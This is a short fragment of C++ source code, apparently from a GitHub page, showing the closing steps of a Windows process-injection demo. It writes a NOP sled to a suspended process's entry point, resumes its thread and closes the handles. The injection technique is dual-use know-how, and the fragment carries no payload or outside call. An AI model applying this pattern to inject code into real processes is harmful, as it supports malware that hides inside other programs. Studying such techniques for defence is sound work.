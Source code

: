 ```c
	{
	    std::cerr << "Error writing to the process memory." << std::endl;
	    return -1;
	}
	
	std::cout << "[5] NOP sled was written to the EntryPoint" << std::endl;
	// 6 -- Resume the suspended process
	std::cout << "Press Enter to exit and clean up..." << std::endl;
	std::cin.get();
	ResumeThread(pi.hThread);
	
	std::cout << "[6] The process thread was resumed." << std::endl;
	
	//Close the handlers
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	
	return 0;
}
```
